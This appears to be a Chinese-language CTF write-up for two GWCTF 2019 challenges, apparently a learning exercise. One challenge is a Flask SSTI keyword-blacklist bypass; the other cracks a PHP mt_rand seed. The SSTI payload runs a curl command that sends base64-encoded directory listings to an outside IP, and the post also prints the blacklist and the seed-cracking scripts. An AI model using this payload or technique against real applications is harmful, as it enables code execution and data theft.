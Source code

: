 ```yaml
---
title: GWCTF 2019 复现
date: 2020-04-30
image: 
description: 广东外语外贸大学主办的比赛
categories: 
- ctf_writeup
tags:
- SSTI
- 伪随机数
---
```

之前广外CTF的时候才刚刚接触CTF，当时只做了一道随机数爆破，现在来复现

------

### [你的名字](https://buuoj.cn/challenges#[GWCTF%202019]你的名字)

考点：flaskSSTI、绕过`{{}}`过滤、黑名单过滤逻辑错误

很详细的SSTI>>：https://xz.aliyun.com/t/6885#toc-4

SSTIbypass姿势>>https://p0sec.net/index.php/archives/120/

参考：>>[ggb0n](http://ggb0n.cool/2020/03/04/GWCTF2019复现/)

打开题目，只有一个输入框，联想到注入，不过SQLi尝试之后发现并不行，于是就去尝试SSTI，不过网上的wp说可以通过抓包查看响应头来判断服务器使用的python的模板。

尝试输入{{2*2}}，返回“Parse error: syntax error, unexpected T_STRING, expecting '{' in \var\WWW\html\test.php on line 13 ”

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170318.png)

不管怎么改，返回的结果都是一样的，说明可能{{}}被过滤了；

但是可以通过 `{%%}` 类似的方式来进行注入，尝试 `{%if 1%}1{% endif%}` ，发现服务器直接给出500错误。。。判断可能有什么过滤

直接输入if，返回结果是：

```
hello !
```

说明if被替换为空了，尝试双写iiff，但是还是被替换为空了，可能是用的循环匹配。

参考了师傅写的wp，fuzz出来的过滤可能是这个样子：

```
blacklist = ['import', 'getattr', 'os', 'class', 'subclasses', 'mro', 'request', 'args', 'eval',
                 'if', 'for',' subprocess', 'file', 'open', 'popen', 'builtins', 'compile',
                 'execfile', 'from_pyfile', 'local','self', 'item', 'getitem', 'getattribute', 
                 'func_globals', 'config']
for no in blacklist:
    while True:
        if no in s:
            s = s.replace(no, '')
        else:
            break
return s
```

考察黑名单过滤逻辑错误，这种过滤，利用黑名单中最后一个词进行混淆来过滤是最好了，即 `if=>iconfigf` ，因为是用黑名单的关键词按顺序来对输入进行替换的，那么最后一个 `config` 被替换之后，过滤也就结束了。

那么我们在所有被过滤的关键词中间都可以插入一个config来避开过滤；

最终playlaod：

```
{% iconfigf ''.__clconfigass__.__mconfigro__[2].__subclaconfigsses__()[59].__init__.__globals__['linecache'].oconfigs.system('curl http://174.0.225.32/?a=`ls \|base64`') %}1{% endiconfigf %}
#相当于把ls的结果进行base64编码后（不然只能显示一行），以curl的方式发送到攻击机
```

flag{a2bc941d-a38d-42bb-97be-fe2440442cdf}

 

 

 

### [枯燥的抽奖](https://buuoj.cn/challenges#[GWCTF%202019]枯燥的抽奖)

考点：PHP逆向脚本、PHP伪随机数爆破

打开题目，叫你猜数据，并且给了前10位：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170333.png)

随便输一个提交，随即给出源码：

```
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```

意思大概是：

一个20次的循环，每次从 `$str_long1` 随机取一个字符，拼接成最后的 `$str` 。

- 当 `mt_rand()` 函数运行的时候，会检查有没有播种 `mt_srand` 如果已经播种了，就直接取随机数，其实这里和C语言一样（PHP底层是C）如果不每次重新播种的话，随机数怎么取都是一样的

我们来写段代码。

```
<?php
mt_srand(12345);
echo mt_rand()."<br/>";
?>
```

我们访问，输出 `162946439` 。

现在代码改为

```
<?php 
mt_srand(12345); 
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
?>
```

我们再次访问:

```
162946439

247161732

1463094264

1878061366

394962642
```

现在细心的人可能已经发现，第一个数 `162946439` 存在猫腻了。

为什么生成随机数会一样呢？我们多次访问。震惊:
还是

```
162946439

247161732

1463094264

1878061366

394962642
```

其实，这就是伪随机数的漏洞，存在可预测性。

生成伪随机数是线性的，你可以理解为 `y=ax` , `x` 就是种子，知道种子和一组伪随机数不是就可以推y(伪随机数)了吗
当然，实际上更复杂肯定。

我知道种子后，可以确定你输出伪随机数的序列。
知道你的随机数序列，可以确定你的种子。

用到的是爆破，已经有写好的[C脚本](https://www.openwall.com/php_mt_seed/)了。

我们的思路就是根据他给出的10为数据，来爆破他的随机数种子，然后在把剩下的随机数输出

因为是用的php_mt_seed，我们要用他的格式，这是转换成随机数的脚本

```
<?php
$pass_now = "JAfq968Gqy";//给出的密钥
$allowable_characters = '
abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';//字母表

$length = strlen($allowable_characters) - 1;

for ($j = 0; $j < strlen($pass_now); $j++) {//遍历密钥
    for ($i = 0; $i < $length; $i++) {//遍历字母表
        if ($pass_now[$j] == $allowable_characters[$i]) {
            echo "$i $i 0 $length ";
            break;
        }
    }
}
?>
```

运行，得到

```
45 45 0 61 36 36 0 61 5 5 0 61 16 16 0 61 35 35 0 61 32 32 0 61 34 34 0 61 42 
42 0 61 16 16 0 61 24 24 0 61
```

把php_mt_seed下载解压之后，运行命令：

```
make
./php_mt_seed 45 45 0 61 36 36 0 61 5 5 0 61 16 16 0 61 35 35 0 61 32 32 0 61 
34 34 0 61 42 42 0 61 16 16 0 61 24 24 0 61
```

可以得到他的随机数种子

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170347.png)

然后我们直接把他原来的代码拷贝过来，种子替换为我们爆破出来的：

```
<?php
mt_srand(591614089);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 20);
echo $str_show;
?>
```

运行得到一串字符 `JAfq968GqyhRKQTHLc8j` ，开头恰巧就是他给的，提交获得flag

flag{37c86593-2593-4566-b3cd-18081cbe44d0}